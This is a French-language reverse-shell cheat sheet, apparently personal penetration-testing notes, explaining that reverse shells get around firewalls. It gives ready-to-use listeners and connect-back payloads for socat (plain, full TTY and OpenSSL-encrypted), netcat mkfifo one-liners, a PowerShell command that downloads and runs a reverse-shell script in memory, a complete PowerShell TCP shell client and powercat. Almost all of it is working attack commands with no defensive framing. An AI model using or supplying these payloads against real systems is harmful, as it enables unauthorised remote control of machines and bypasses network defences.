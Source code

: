 Se produise lorsque la cible est obligée d’exécuter du code qui se reconnecte _à_ votre ordinateur.

C'est un bon moyen de contourner les règles de pare-feu qui peuvent vous empêcher de vous connecter à des ports arbitraires sur la cible

**cependant, l'inconvénient est que, lorsque vous recevez un shell d'une machine via Internet, vous devrez configurer votre propre réseau pour accepter le shell.**

---
# socat
#linux #windows
Ecouteur de shell socat

```
socat TCP-L:4444 -
```


```sh
socat TCP:<ATTACK-IP>:<PORT> EXEC:powershell.exe,pipes
```

```
socat TCP:<ATTACK-IP>:<PORT> EXEC:"bash -li"
```

###### Shell inversé Linux TTY entièrement stable
Ecouteur:

```sh
socat TCP-L:4444 FILE:`tty`,raw,echo=0
```


```sh
socat TCP:<ATTACKER-IP>:<PORT> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

###### Shell cryptées

Générer un certificat afin d'utiliser des shells cryptés

```sh
openssl req --newkey rsa:2028 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```

Fusionner les deux fichiers en un seul 

```sh
cat shell.key shell.crt > shell.pem
```

Ecouteur:

```sh
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
```


```sh
socat OPENSSL:<ATTACKER-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
```

---
### Shell communes
#linux 

Ecouteur

```
nc -nlvp <PORT>
```

```sh
mkfifo /tmp/f; nc <ATTACK-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.113.150 9001 >/tmp/f
```

---
# powershell 
#windows 

Telecharger et executer un reverse-shell en memoire

```c
powershell iex (New-Object Net.WebClient).DownloadString('http://ip:port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress {ATTACK-IP} -Port 443
```

Executer ceci dans powershell

```c
$client = New-Object System.Net.Sockets.TCPClient('ATTACK-IP', '443');
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
	$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);
	$sendback = (iex $data 2>&1 | Out-String);
	$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
	$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
	$stream.Write($sendbyte,0,$sendbyte.Length);
	$stream.Flush();
}
$client.Close();
```

# powercat
C'est la version powershell de netcat

```c
. .\powercat.ps1
#powercat -h
 powercat -c ATTACK-IP -p 9001 -e cmd -v
```